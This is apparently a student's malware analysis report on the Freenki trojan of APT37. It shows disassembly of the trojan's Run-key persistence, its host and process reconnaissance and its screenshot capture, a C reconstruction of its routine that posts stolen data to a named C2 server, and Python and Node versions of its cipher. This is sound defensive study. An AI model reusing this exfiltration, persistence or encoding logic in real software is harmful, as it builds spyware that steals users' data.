

# Week 6 and 7: Analyzing Freenki Malware of APT37
> Author: Nguyen Anh Khoa
>
> Instructor: Dang Dinh Phuong


This time I have to disect a malware originated in 2017 by a North Korean group, code name APT37. The goal is to find the Command and Conquer (C&C or C2) server, to analyze the command of the malware, to write a Yara rule to detect the malware, and to write a dummy C&C server for the malware.

The hash of the malware is: `7f35521cdbaa4e86143656ff9c52cef8d1e5e5f8245860c205364138f82c54df`. This is a mild malware that act as a trojan, though it has a code to download another file, and execute it. The whole process was enjoyful, the malware is built using Visual Studio with Release tag, so a lot of code changing and optimizations are taken place. Also, the binary was using Unicode character (wide char), which is new to my reversing experience. I was taking the wrong path at first but soon got back and process, this report should be about I should have done rather than how I have done it.

## The binary overview

We take a look over the binary, for any weird binary we come accross this is a must. Things we should look for just by a view of it are headers, addresses, strings and imports, exports if it were a libary, which tools generated the binary, the size of the binary... to be listed. We can grasp of these by using these programs: `CFF Explorer`, `PE`. After we have a look of the binary, we can some how guess what the binary is doing. In this binary, the file has many imports, so we can see what the binary is doing, and there could be no packing or is a dynamically library resolving using `LoadProcAddress(GetModuleHandleA(), '')`. If we look first on strings, we can find some interesting ones, `cannot take screenshot`. Clearly this binary will take screenshot. Some important imports we can see are:

- `OpenInternetW`
- `ReadInternetFile`
- `BitBlt`, as we've covered in week 3 writing a malware that take screen shot
- `HttpSendRequest`

These functions are so suspicious, so get into Ollydbg, open import modules, and put a break point to them all, (:smile: I wasn't doing this at first, so it took me a while to get to the binary, crawling inside of IDA is a total mess). We also see some catchy strings, `help`, `console`, `sample`, don't know what these are, put a break point to their references.

The overal view of the binary can give us really much info about this malware, but don't debug yet. If we are unsure of the binary, we should use a third party tool to analyze it online, it will give us some more information. But this malware is a defined one, and not much information can be gained.

## Debugging

### Finding the main

Obviously, if we debug, and run into those functions, we can trace back the caller up and up and up, we can find the main function. Because this binary is built with Release tag, the IDA decompiled is just ugly and make no sense. I first try to go over one of them and it consumed a lot of my time, understanding nothing, and end up with a lot of `flag` set. However, if we just debug, we will hit the compare of these three strings `help`, `console`, `sample`. Seem like we hit the main of our binary. We can come up with our binary was actually run with arguments from the command line. We can set them in Ollydbg, IDA, and x32dbg like so.




### `console` argument

There is no much talking

```nasm
00121B54  |.  50            PUSH EAX                                 ; /pResult = 46F1A0 -> 02300210
00121B55  |.  68 06000200   PUSH 20006                               ; |DesiredAccess = KEY_WRITE
00121B5A  |.  6A 00         PUSH 0                                   ; |Reserved = 0
00121B5C  |.  68 B8F71300   PUSH OFFSET 0013F7B8                     ; |SubKey = "SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
00121B61  |.  68 01000080   PUSH 80000001                            ; |hKey = HKEY_CURRENT_USER
00121B66  |.  D1FE          SAR ESI,1                                ; |
00121B68  |.  FF15 04901300 CALL DWORD PTR DS:[<&ADVAPI32.RegOpenKey ; \ADVAPI32.RegOpenKeyExW

00121BB1  |.  50            PUSH EAX                                 ; /DataSize = 4649380.
00121BB2  |.  8D85 E4F9FFFF LEA EAX,[EBP-61C]                        ; |
00121BB8  |.  50            PUSH EAX                                 ; |Data
00121BB9  |.  6A 01         PUSH 1                                   ; |Type = REG_SZ
00121BBB  |.  6A 00         PUSH 0                                   ; |Reserved = 0
00121BBD  |.  68 A4F91300   PUSH OFFSET 0013F9A4                     ; |SubKey = "runsample"
00121BC2  |.  FFB5 E0F9FFFF PUSH DWORD PTR SS:[EBP-620]              ; |hKey
00121BC8  |.  FF15 08901300 CALL DWORD PTR DS:[<&ADVAPI32.RegSetValu ; \ADVAPI32.RegSetValueExW
```


> Run and RunOnce registry keys cause programs to run each time that a user logs on.

First line on [MSDN/Run and RunOnce Registry Keys](https://docs.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys).

### `sample` arguments

Run `console` and then `help`.

### `help` arguments

The code is a big loop, debugging is a bit tough without patching some `sleep(25)` after a call to a function. I have heard on my trip to Viettel Center that they usually patch the sleep function by hooking. We perform patching on push from `25` to `0`, from `68 A8 61 00 00` to `68 00 00 00 00`.

```
CPU Disasm
Address   Hex dump              Command                                  Comments
00E82571  |.  8B3D 8090E900     MOV EDI,DWORD PTR DS:[<&KERNEL32.Sleep>]
...
00E82595  |.  E8 26EFFFFF       |CALL RequestAndSend
00E8259A  |.  83C4 18           |ADD ESP,18
00E8259D  |.  84C0              |TEST AL,AL
00E8259F  |.- 75 09             |JNZ SHORT 00E825AA
00E825A1  |.  68 A8610000       |PUSH 61A8
00E825A6  |.  FFD7              |CALL EDI
```

Now, if we look into these sleep calls, we can see it always call the same function aforehand. Which makes this function our main focus. IDA didn't perform well on this address to define it as a function because of some `0xCC` align-bytes added by Visual Studio. Until now I haven't found a way to make IDA recognize this a function. Anyway, the function is quite simple, a bunch of `Internet` and `Http` is used. If we look about them on MSDN and compare with the arguments pushed on stack, we can make sense of the function.

The function load up parameters to local variables, they are as follows

```nasm
001314D7   .  8B45 10       MOV EAX,DWORD PTR SS:[EBP+10]
001314DA   .  8985 08AFFFFF MOV DWORD PTR SS:[EBP+FFFFAF08],EAX
001314E0   .  8B45 14       MOV EAX,DWORD PTR SS:[EBP+14]
001314E3   .  53            PUSH EBX
001314E4   .  8985 1CAFFFFF MOV DWORD PTR SS:[EBP+FFFFAF1C],EAX
001314EA   .  33DB          XOR EBX,EBX
001314EC   .  8B45 18       MOV EAX,DWORD PTR SS:[EBP+18]
001314EF   .  8985 10AFFFFF MOV DWORD PTR SS:[EBP+FFFFAF10],EAX
001314F5   .  8B45 1C       MOV EAX,DWORD PTR SS:[EBP+1C]
001314F8   .  8985 0CAFFFFF MOV DWORD PTR SS:[EBP+FFFFAF0C],EAX
```

This function has three stop point we need to pay atention to. A three consecutive jump place together.

```nasm
00E8181F  |.  6A 00             PUSH 0                                   ; /Arg5 = 0
00E81821  |.  50                PUSH EAX                                 ; |Arg4
00E81822  |.  8D85 F8FEFFFF     LEA EAX,[EBP-108]                        ; |
00E81828  |.  50                PUSH EAX                                 ; |Arg3
00E81829  |.  6A 13             PUSH 13                                  ; |Arg2 = 13
00E8182B  |.  57                PUSH EDI                                 ; |Arg1
00E8182C  |.  FF15 B891E900     CALL DWORD PTR DS:[<&WININET.HttpQueryIn ; \WININET.HttpQueryInfoW
00E81832  |.  85C0              TEST EAX,EAX
00E81834  |.- 74 A6             JZ SHORT 00E817DC
00E81836  |.  8B85 24AFFFFF     MOV EAX,DWORD PTR SS:[EBP+FFFFAF24]
00E8183C  |.  03C0              ADD EAX,EAX
00E8183E  |.  3D 00010000       CMP EAX,100
00E81843  |.- 0F83 1A010000     JAE 00E81963
00E81849  |.  33C9              XOR ECX,ECX
00E8184B  |.  66:898C05 F8FEFFF MOV WORD PTR SS:[EAX+EBP-108],CX
00E81853  |.  8D85 F8FEFFFF     LEA EAX,[EBP-108]
00E81859  |.  50                PUSH EAX                                 ; /Arg1
00E8185A  |.  E8 AA660000       CALL 00E87F09                            ; \freenki.00E87F09
00E8185F  |.  83C4 04           ADD ESP,4
00E81862  |.  3D C8000000       CMP EAX,0C8
00E81867  |.- 0F85 6FFFFFFF     JNE 00E817DC
00E8186D  |.  399D 10AFFFFF     CMP DWORD PTR SS:[EBP+FFFFAF10],EBX
00E81873  |.- 0F84 BE000000     JE 00E81937
00E81879  |.  399D 0CAFFFFF     CMP DWORD PTR SS:[EBP+FFFFAF0C],EBX
00E8187F  |.- 0F84 B2000000     JE 00E81937
```

Where `0x00E87F09` is a function to check for status code. I find this by looking first in the 2nd argument of `HttpQueryInfoW`, the type of query. It was querying the status of the request, stored in 3rd argument, and if it is not 200, 0xC8, it will return. Then it will check if we have any data to send, if not, it will return.

Now we can monitor the in and out of the function through arguments, we know which server they connect to, data it sends, data it could have received according to the later use of the output buffer. We can find the C&C server too, debug through the `InternetOpenW`, the host address and the address we connect to is `old.jrchina.com/btob_asiana/udel_confirm.php`. At this point, I was silly to keep trying debugging, without finding a better way, we can setup a fake server, and control all request and response then everything will be clear. A sample request 0x31 after parsing:

```
URL: POST:/btob_asiana/udel_confirm.php
HEADERS: { host: 'old.jrchina.com',
  'x-real-ip': '42.119.12.160',
  'x-forwarded-for': '42.119.12.160',
  connection: 'close',
  'content-length': '309',
  'user-agent':
   'Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/6.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; Tablet PC 2.0; .NET4.0E; InfoPath.3)',
  'cache-control': 'no-cache' }

DATA:
1 02004C4F4F5
Efiens/EFIENS-PC/win-6.1.7601-1/0.1
MAC:02004C4F4F50:0800270DE546:/EFIENS-PC/innotek GmbH/VirtualBox:Freenki response
ollydbg.exe
freenki.exe
```

The actual data sent was encrypted, and the two function for encrypting and decrypting are:

```nasm
00131120  /$  33C0          XOR EAX,EAX                              ; freenki.decrypt(guessed void)
00131122  |.  56            PUSH ESI
00131123  |.  8BF1          MOV ESI,ECX
00131125  |.  85D2          TEST EDX,EDX
00131127  |.- 7E 68         JLE SHORT 00131191
00131129  |.  83FA 20       CMP EDX,20
0013112C  |.- 72 4C         JB SHORT 0013117A
0013112E  |.  8BCA          MOV ECX,EDX
00131130  |.  57            PUSH EDI
00131131  |.  81E1 1F000080 AND ECX,8000001F
00131137  |.- 79 05         JNS SHORT 0013113E
00131139  |.  49            DEC ECX
0013113A  |.  83C9 E0       OR ECX,FFFFFFE0
0013113D  |.  41            INC ECX
0013113E  |>  0F280D 80FB14 MOVAPS XMM1,DQWORD PTR DS:[14FB80]       ; FLOAT 7.053345e-30, 7.053345e-30, 7.053345e-30, 7.053345e-30
00131145  |.  8BFA          MOV EDI,EDX
00131147  |.  0F2815 90FB14 MOVAPS XMM2,DQWORD PTR DS:[14FB90]       ; FLOAT 5.459277e-19, 5.459277e-19, 5.459277e-19, 5.459277e-19
0013114E  |.  2BF9          SUB EDI,ECX
00131150  |>  0F100406      /MOVUPS XMM0,DQWORD PTR DS:[EAX+ESI]
00131154  |.  660FF8C1      |PSUBB XMM0,XMM1
00131158  |.  660FEFC2      |PXOR XMM0,XMM2
0013115C  |.  0F110406      |MOVUPS DQWORD PTR DS:[EAX+ESI],XMM0
00131160  |.  0F104406 10   |MOVUPS XMM0,DQWORD PTR DS:[EAX+ESI+10]
00131165  |.  660FF8C1      |PSUBB XMM0,XMM1
00131169  |.  660FEFC2      |PXOR XMM0,XMM2
0013116D  |.  0F114406 10   |MOVUPS DQWORD PTR DS:[EAX+ESI+10],XMM0
00131172  |.  83C0 20       |ADD EAX,20
00131175  |.  3BC7          |CMP EAX,EDI
00131177  |.- 7C D7         \JL SHORT 00131150
00131179  |.  5F            POP EDI
0013117A  |>  3BC2          CMP EAX,EDX
0013117C  |.- 7D 13         JGE SHORT 00131191
0013117E  |.  66:90         NOP
00131180  |>  8A0C30        /MOV CL,BYTE PTR DS:[ESI+EAX]
00131183  |.  80E9 0F       |SUB CL,0F
00131186  |.  80F1 21       |XOR CL,21
00131189  |.  880C30        |MOV BYTE PTR DS:[ESI+EAX],CL
0013118C  |.  40            |INC EAX
0013118D  |.  3BC2          |CMP EAX,EDX
0013118F  |.- 7C EF         \JL SHORT 00131180
00131191  |>  5E            POP ESI
00131192  \.  C3            RETN

001310A0  /$  33C0          XOR EAX,EAX                              ; encrypt
001310A2  |.  56            PUSH ESI
001310A3  |.  8BF1          MOV ESI,ECX
001310A5  |.  85D2          TEST EDX,EDX
001310A7  |.- 7E 69         JLE SHORT 00131112
001310A9  |.  83FA 20       CMP EDX,20
001310AC  |.- 72 4F         JB SHORT 001310FD
001310AE  |.  8BCA          MOV ECX,EDX
001310B0  |.  57            PUSH EDI
001310B1  |.  81E1 1F000080 AND ECX,8000001F
001310B7  |.- 79 05         JNS SHORT 001310BE
001310B9  |.  49            DEC ECX
001310BA  |.  83C9 E0       OR ECX,FFFFFFE0
001310BD  |.  41            INC ECX
001310BE  |>  0F2815 90FB14 MOVAPS XMM2,DQWORD PTR DS:[14FB90]       ; FLOAT 5.459277e-19, 5.459277e-19, 5.459277e-19, 5.459277e-19
001310C5  |.  8BFA          MOV EDI,EDX
001310C7  |.  0F281D 80FB14 MOVAPS XMM3,DQWORD PTR DS:[14FB80]       ; FLOAT 7.053345e-30, 7.053345e-30, 7.053345e-30, 7.053345e-30
001310CE  |.  2BF9          SUB EDI,ECX
001310D0  |>  0F100406      /MOVUPS XMM0,DQWORD PTR DS:[EAX+ESI]
001310D4  |.  0F28CA        |MOVAPS XMM1,XMM2
001310D7  |.  660FEFC2      |PXOR XMM0,XMM2
001310DB  |.  660FFCC3      |PADDB XMM0,XMM3
001310DF  |.  0F110406      |MOVUPS DQWORD PTR DS:[EAX+ESI],XMM0
001310E3  |.  0F104406 10   |MOVUPS XMM0,DQWORD PTR DS:[EAX+ESI+10]
001310E8  |.  660FEFC8      |PXOR XMM1,XMM0
001310EC  |.  660FFCCB      |PADDB XMM1,XMM3
001310F0  |.  0F114C06 10   |MOVUPS DQWORD PTR DS:[EAX+ESI+10],XMM1
001310F5  |.  83C0 20       |ADD EAX,20
001310F8  |.  3BC7          |CMP EAX,EDI
001310FA  |.- 7C D4         \JL SHORT 001310D0
001310FC  |.  5F            POP EDI
001310FD  |>  3BC2          CMP EAX,EDX
001310FF  |.- 7D 11         JGE SHORT 00131112
00131101  |>  8A0C30        /MOV CL,BYTE PTR DS:[ESI+EAX]
00131104  |.  80F1 21       |XOR CL,21
00131107  |.  80C1 0F       |ADD CL,0F
0013110A  |.  880C30        |MOV BYTE PTR DS:[ESI+EAX],CL
0013110D  |.  40            |INC EAX
0013110E  |.  3BC2          |CMP EAX,EDX
00131110  |.- 7C EF         \JL SHORT 00131101
00131112  |>  5E            POP ESI
00131113  \.  C3            RETN
```

It was written using SSE instructions, hard to read, and even harder to read on IDA. But we can see the last loop, the whole process was just a shorthand, everything is done on byte, so we can re-create the encrypt and decrypt function, example on python and nodejs.

```python
# python

def encrypt(d):
    return bytes(map(lambda x: (ord(x) ^ 0x21) + 0x0f % 0xff,  flatten([[x, '\x00'] for x in d])))


def decrypt(d):
    return ''.join(filter(lambda x: x != chr(0x00), map(lambda x: chr(((x-0x0f) % 0xff) ^ 0x21),  d)))
```

```js
// nodejs

const encrypt = (m) => Buffer.from(m, 'utf16le').map(x => (x ^ 0x21) + 0x0f);

const decrypt = (c) => c.map(x => (x - 0x0f) ^ 0x21);
```

We should be careful because the bytes are unicode 16, utf-16, which consumes two bytes, rather then normal utf-8, which is default on python, and nodejs.

When we have found these two functions, we can see that the address to the C&C server is encrypted, and upon creating the connection, they decrypt the string, these two strings we found here are C&C address, and user agent.

```
http://old.jrchina.com/btob_asiana/udel_confirm.php

Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/6.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; Tablet PC 2.0; .NET4.0E; InfoPath.3)
```

`RequestAndSend` function still has two others arguments, one of them will be used to send to the server, after appending with MAC address of the device, if `send_data` exists, it will be encrypted and append too. The first arguments is used to define the action code, counting from 0 to 5, they are pass to the function as ascii byte code, 0x30 to 0x35. The other one doesn't use though.

Through debugging, we learn about these codes:

- 0x30, initial request, received data is appended to 0x31 request.
- 0x31, send information about the system, computer name, mac addresses, and current running process.
- 0x34, send screenshots.

The whole function written in understandable C code:

```cpp
void RequestAndSend(int code, x, char* additional_data, int additional_data_len, char*& result, int* result_len) {
  SetData(full_url, 0, 0x1000);
  SetData(hostname, 0, 0x1000);
  SetData(ebp_ffffaf28, 0, 0x1000);
  SetData(ebp_2106, 0, 0x0ffe);

  strcpy(full_url, offset_125f928);
  strcpy(client_string, offset_0125f5e0);

  __fastcall decrypt(full_url, count(full_url)); // http://old.jrchina.com/btob_asiana/udel_confirm.php
  __fastcall decrypt(client_string, count(client_string)); // Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/6.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; Tablet PC 2.0; .NET4.0E; InfoPath.3)

  s = strncmp(full_url, "https://", 8);
  if (!s) {
    port = 0x1bb;               // 443
    strcpy(hostname, ebp_10f8); // ebp_10f8 = &full_url - (8*2)
  }
  else {
    port = 0x50;                // 80
    strcpy(hostname, ebp_10fa); // ebp_10fa = &full_url - (7*2)
  }
  // hostname = "old.jrchina.com/btob_asiana/udel_confirm.php"

  s = strfind(hostname, "/"); // /btob_asiana/udel_confirm.php
  *s = 0;

  query_buffer_len = 80;
  internet_handle = InternetOpenW(client_string, 0, 0, 0, 0);
  // hostname = "old.jrchina.com" NULL "btob_asiana/udel_confirm.php"
  internet_connect_handle = InternetConnect(internet_handle, hostname, port, 0, 0, 3, 0, 0);
  request = HttpOpenRequestW(internet_connect_handle, "POST", ebp_ffffaf28, 0, 0, 0, 100, 0);

  send_data = alloc(additional_data_len + count(macaddr_01263d38));
  *send_data = code;
  strcpy(&send_data + 1, macaddr_01263d38, count(macaddr_01263d38));

  macaddr_len = count(macaddr_01263d38);
  if (additional_data) {
    strcpy(&send_data + 1 + macaddr_len, additional_data, additional_data_len);
    __thiscall encrypt(&send_data + 1 + macaddr_len, additional_data_len);
  }
  HtpSendRequestW(request, 0, 0, send_data, macaddr_len);

  HeapFree(send_data);

  // query status code
  HttpQueryInfoW(request, 0x13, query_buffer, &query_buffer_len, 0);

  if (query_buffer_len * 2 >= 100)
    func_01303e85();

  query_buffer[query_buffer_len * 2] = 0; // unicode => * 2, null terminate
  s = check_status_code(query_buffer);
  if (s != HTTP_STATUS_OK || result == 0 || result_len == 0)
    return;

  s = InternetReadFile(request, readfile_buffer, 0x0fd0, &readfile_buffer_len);
  if (s == 0) return;

  readfile_result = 0;
  readfile_result_len = 0;
  while (true) {
    if (readfile_buffer_len == 0)
      break;
    readfile_result = realloc(readfile_result, readfile_buffer_len);
    if (!readfile_result)
      return;
    __thiscall strcpy(readfile_result + readfile_result_len, readfile_buffer, readfile_buffer_len);
    readfile_result_len += readfile_buffer_len;
    s = InternetReadFile(request, readfile_buffer, 0x0fd0, &readfile_buffer_len);
    if (!s)
      break;
  }

  HttpEndRequestW(request, 0, 0, 0);

  result = readfile_result;
  *result_len = readfile_result_len;

  InternetCloseHandle(request);
  InternetCloseHandle(internet_connect_handle);
  InternetCloseHandle(internet_handle);
}
```

#### Information garthering

We can easily see the information gathered before sending.

<!-- Get Mac Addr -->

```nasm
01301C2B   .  68 20F83101   PUSH OFFSET 0131F820                              ; /FileName = "iphlpapi.dll"
01301C30   .  FF15 70903101 CALL DWORD PTR DS:[<&KERNEL32.LoadLibraryW>]      ; \KERNEL32.LoadLibraryW
01301C36   .  85C0          TEST EAX,EAX
01301C38   .- 0F84 46010000 JE 01301D84
01301C3E   .  68 3CF83101   PUSH OFFSET 0131F83C                              ; /Procname = "GetAdaptersAddresses"
01301C43   .  50            PUSH EAX                                          ; |hModule
01301C44   .  FF15 68903101 CALL DWORD PTR DS:[<&KERNEL32.GetProcAddress>]    ; \KERNEL32.GetProcAddress
```

A search on google will give us what `GetAdaptersAddresses` does. I don't bother much debugging, and just find the result offset.

```nasm
01301CC0   >  0FB646 31     MOVZX EAX,BYTE PTR DS:[ESI+31]
01301CC4   .  50            PUSH EAX
01301CC5   .  0FB646 30     MOVZX EAX,BYTE PTR DS:[ESI+30]
01301CC9   .  50            PUSH EAX
01301CCA   .  0FB646 2F     MOVZX EAX,BYTE PTR DS:[ESI+2F]
01301CCE   .  50            PUSH EAX
01301CCF   .  0FB646 2E     MOVZX EAX,BYTE PTR DS:[ESI+2E]
01301CD3   .  50            PUSH EAX
01301CD4   .  0FB646 2D     MOVZX EAX,BYTE PTR DS:[ESI+2D]
01301CD8   .  50            PUSH EAX
01301CD9   .  0FB646 2C     MOVZX EAX,BYTE PTR DS:[ESI+2C]
01301CDD   .  50            PUSH EAX
01301CDE   .  68 54F83101   PUSH OFFSET 0131F854             ; ASCII "%02X%02X%02X%02X%02X%02X"
01301CE3   .  68 383D3201   PUSH OFFSET 01323D38             ; ASCII "02004C4F4F50"
01301CE8   .  E8 73FDFFFF   CALL sprintf
```

<!-- Get system information -->

There are two function to get the system information, one calls WinAPIs, one uses WSQL to query the system information.

```nasm
01302062  |.  50            PUSH EAX                                           ; /Bufcount = 1
01302063  |.  8D85 FCFDFFFF LEA EAX,[EBP-204]                                  ; |
01302069  |.  50            PUSH EAX                                           ; |Buffer
0130206A  |.  FF15 00903101 CALL DWORD PTR DS:[<&ADVAPI32.GetUserNameW>]       ; \ADVAPI32.GetUserNameW
01302070  |.  8B85 F8FCFFFF MOV EAX,DWORD PTR SS:[EBP-308]
01302076  |.  03C0          ADD EAX,EAX
01302078  |.  3D 00010000   CMP EAX,100
0130207D  |.- 0F83 8E000000 JAE 01302111
01302083  |.  33C9          XOR ECX,ECX
01302085  |.  C785 F8FCFFFF MOV DWORD PTR SS:[EBP-308],400
0130208F  |.  66:898C05 FCF MOV WORD PTR SS:[EAX+EBP-204],CX
01302097  |.  8D85 F8FCFFFF LEA EAX,[EBP-308]
0130209D  |.  50            PUSH EAX                                           ; /Count
0130209E  |.  8D85 FCFEFFFF LEA EAX,[EBP-104]                                  ; |
013020A4  |.  50            PUSH EAX                                           ; |Buffer
013020A5  |.  FF15 60903101 CALL DWORD PTR DS:[<&KERNEL32.GetComputerNameW>]   ; \KERNEL32.GetComputerNameW
013020AB  |.  8B85 F8FCFFFF MOV EAX,DWORD PTR SS:[EBP-308]
013020B1  |.  03C0          ADD EAX,EAX
013020B3  |.  3D 00010000   CMP EAX,100
013020B8  |.- 73 57         JAE SHORT 01302111
013020BA  |.  33C9          XOR ECX,ECX
013020BC  |.  C785 F8FCFFFF MOV DWORD PTR SS:[EBP-308],400
013020C6  |.  66:898C05 FCF MOV WORD PTR SS:[EAX+EBP-104],CX
013020CE  |.  8D8D FCFCFFFF LEA ECX,[EBP-304]
013020D4  |.  E8 67120000   CALL 01303340                                      ; [freenki.01303340
013020D9  |.  68 D4F83101   PUSH OFFSET 0131F8D4                               ; /<%s> = "0.1"
013020DE  |.  8D85 FCFCFFFF LEA EAX,[EBP-304]                                  ; |
013020E4  |.  50            PUSH EAX                                           ; |<%s>
013020E5  |.  8D85 FCFEFFFF LEA EAX,[EBP-104]                                  ; |
013020EB  |.  50            PUSH EAX                                           ; |<%s>
013020EC  |.  8D85 FCFDFFFF LEA EAX,[EBP-204]                                  ; |
013020F2  |.  50            PUSH EAX                                           ; |<%s>
013020F3  |.  68 DCF83101   PUSH OFFSET 0131F8DC                               ; |Format = "%s/%s/%s/%s"
013020F8  |.  56            PUSH ESI                                           ; |Buf
013020F9  |.  FF15 98913101 CALL DWORD PTR DS:[<&USER32.wsprintfW>]            ; \USER32.wsprintfW
```

```nasm
013035A5   >  68 60FA3101   PUSH OFFSET 0131FA60                               ; /Arg1 = ASCII "SELECT * FROM Win32_ComputerSystem"
013035AA   .  8D4D BC       LEA ECX,[EBP-44]                                   ; |
013035AD   .  C745 D8 00000 MOV DWORD PTR SS:[EBP-28],0                        ; |
013035B4   .  E8 77FBFFFF   CALL 01303130                                      ; \freenki.01303130
013035B9   .  8BF0          MOV ESI,EAX
013035BB   .  68 84FA3101   PUSH OFFSET 0131FA84                               ; /Arg1 = ASCII "WQL"
013035C0   .  8D4D C0       LEA ECX,[EBP-40]                                   ; |
013035C3   .  C745 FC 01000 MOV DWORD PTR SS:[EBP-4],1                         ; |
013035CA   .  E8 61FBFFFF   CALL 01303130                                      ; \freenki.01303130

; after that
01302652  |.  E8 190E0000   CALL GetSystemInformation2
01302657  |.  83C4 04       ADD ESP,4
0130265A  |.  8D85 70FEFFFF LEA EAX,[EBP-190]
01302660  |.  50            PUSH EAX                                           ; /<%s>
01302661  |.  8D85 70FDFFFF LEA EAX,[EBP-290]                                  ; |
01302667  |.  50            PUSH EAX                                           ; |<%s>
01302668  |.  8D85 70FCFFFF LEA EAX,[EBP-390]                                  ; |
0130266E  |.  50            PUSH EAX                                           ; |<%s>
0130266F  |.  8D85 70D4FFFF LEA EAX,[EBP-2B90]                                 ; |
01302675  |.  50            PUSH EAX                                           ; |<%s>
01302676  |.  8D85 70DCFFFF LEA EAX,[EBP-2390]                                 ; |
0130267C  |.  68 DCF83101   PUSH OFFSET 0131F8DC                               ; |Format = "%s/%s/%s/%s"
01302681  |.  50            PUSH EAX                                           ; |Buf
01302682  |.  FF15 98913101 CALL DWORD PTR DS:[<&USER32.wsprintfW>]            ; \USER32.wsprintfW
```

No more digging, we know what this functions does.

<!-- Get process names -->

Get all running process name by looping over process enum:

```nasm
01301E80  />  FFB4BD E8EDFF /PUSH DWORD PTR SS:[EDI*4+EBP-1218]                     ; /ProcessID = 0 (0.)
01301E87  |.  6A 00         |PUSH 0                                                 ; |InheritHandle = FALSE
01301E89  |.  68 10040000   |PUSH 410                                               ; |Access = PROCESS_VM_READ|PROCESS_QUERY_INFORMATION
01301E8E  |.  FF15 84903101 |CALL DWORD PTR DS:[<&KERNEL32.OpenProcess>]            ; \KERNEL32.OpenProcess
01301E94  |.  8BD8          |MOV EBX,EAX
01301E96  |.  85DB          |TEST EBX,EBX
01301E98  |.- 0F84 B6000000 |JZ 01301F54
01301E9E  |.  8D85 C8EDFFFF |LEA EAX,[EBP-1238]
01301EA4  |.  50            |PUSH EAX                                               ; /Arg4
01301EA5  |.  6A 04         |PUSH 4                                                 ; |Arg3 = 4
01301EA7  |.  8D85 C4EDFFFF |LEA EAX,[EBP-123C]                                     ; |
01301EAD  |.  50            |PUSH EAX                                               ; |Arg2
01301EAE  |.  53            |PUSH EBX                                               ; |Arg1
01301EAF  |.  FF15 5C903101 |CALL DWORD PTR DS:[<&KERNEL32.K32EnumProcessModules>]  ; \kernel32.K32EnumProcessModules
01301EB5  |.  85C0          |TEST EAX,EAX
01301EB7  |.- 0F84 97000000 |JZ 01301F54
01301EBD  |.  A1 C8F83101   |MOV EAX,DWORD PTR DS:[131F8C8]
01301EC2  |.  0F1005 B8F831 |MOVUPS XMM0,DQWORD PTR DS:[131F8B8]                    ; FLOAT 1.010207e-38, 1.019389e-38, 9.826552e-39, 1.074484e-38
01301EC9  |.  68 F4010000   |PUSH 1F4                                               ; /Arg3 = 1F4
01301ECE  |.  8985 F8FDFFFF |MOV DWORD PTR SS:[EBP-208],EAX                         ; |
01301ED4  |.  8D85 FCFDFFFF |LEA EAX,[EBP-204]                                      ; |
01301EDA  |.  6A 00         |PUSH 0                                                 ; |Arg2 = 0
01301EDC  |.  50            |PUSH EAX                                               ; |Arg1
01301EDD  |.  0F1185 E8FDFF |MOVUPS DQWORD PTR SS:[EBP-218],XMM0                    ; |
01301EE4  |.  E8 97480000   |CALL SetData                                           ; \freenki.SetData
01301EE9  |.  83C4 0C       |ADD ESP,0C
01301EEC  |.  8D85 E8FDFFFF |LEA EAX,[EBP-218]
01301EF2  |.  68 04010000   |PUSH 104                                               ; /Arg4 = 104
01301EF7  |.  50            |PUSH EAX                                               ; |Arg3
01301EF8  |.  FFB5 C4EDFFFF |PUSH DWORD PTR SS:[EBP-123C]                           ; |Arg2
01301EFE  |.  53            |PUSH EBX                                               ; |Arg1
01301EFF  |.  FF15 78903101 |CALL DWORD PTR DS:[<&KERNEL32.K32GetModuleBaseNameW>]  ; \kernel32.K32GetModuleBaseNameW
```

<!-- Take screen shots -->

Take screenshot is done by using Gdip.

```nasm
01303A1F  |.  6A 00         PUSH 0                                                  ; /Arg3 = 0
01303A21  |.  50            PUSH EAX                                                ; |Arg2
01303A22  |.  8D45 F4       LEA EAX,[EBP-0C]                                        ; |
01303A25  |.  C745 EC 32000 MOV DWORD PTR SS:[EBP-14],32                            ; |
01303A2C  |.  50            PUSH EAX                                                ; |Arg1
01303A2D  |.  C745 DC 01000 MOV DWORD PTR SS:[EBP-24],1                             ; |
01303A34  |.  C745 E0 00000 MOV DWORD PTR SS:[EBP-20],0                             ; |
01303A3B  |.  C745 E4 00000 MOV DWORD PTR SS:[EBP-1C],0                             ; |
01303A42  |.  C745 E8 00000 MOV DWORD PTR SS:[EBP-18],0                             ; |
01303A49  |.  FF15 E0913101 CALL DWORD PTR DS:[<&gdiplus.GdiplusStartup>]           ; \gdiplus.GdiplusStartup
